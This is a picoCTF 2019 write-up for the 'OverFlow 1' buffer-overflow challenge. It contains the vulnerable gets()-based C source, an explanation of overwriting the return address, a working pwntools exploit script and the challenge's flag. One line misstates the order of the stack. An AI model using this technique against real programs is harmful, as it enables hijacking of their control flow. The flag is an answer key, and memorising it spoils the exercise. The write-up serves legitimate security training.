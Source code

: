 # OverFlow 1 - Points: 150

## Description

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a on the shell server. Source.

## Solution

We can see that the ```vuln()``` function takes user input and stores it in a char array with a buffer size of 64.
There's also a flag() function that will print the flag if we can call it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

To call the flag function, we can overwrite the return address of the vulnerable function.
Consider the structure of the call stack:

```
Local variables
EBP
Return Address
Arguments
```

Because the stack grows downwards, anything we write thats longer than the space allocated for local variables will overwrite EBP then, arguments, then the return address.

We can see that the buffer size of the char array in ```vuln()``` is 64.
Some more space is reserved for other local variables, but we can start inputting 64 bytes, followed by some recognisable pattern, such as AAAABBBBCCCCDDDD...

Given this input, the program prints 0x44444444 as the return address.
We can also check the value of EBP using GDB and see that it is 0x43434343, from here we could infer that, because there were no arguments pushed to this stack, the next characters would be the return address.

A total of 80 bytes were required to completely overwrite the return address, including 76 bytes of padding, and a new 32-bit address.
By replacing the value 0x44444444 that's currently present in our input with the address of ```flag()```, we can redirect the program to the desired function.

We can use a tool like GDB or Radare2 to print a list of functions and find the address of the flag function.
In this case, it is 0x080485e6.

## Exploit script

Using what we had discovered in the steps prior, we know that we need to send the program 76 bytes, followed by the address.
I'm using pwntools as usual to connect to the process, and I'm printing the address using the ```p32()``` function, which will automatically format it in little endian.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 76).encode() + p32(0x080485e6))
vuln.recvline()

print("done")
vuln.interactive()
```

## Flag

```picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5fe1ff3d8}```

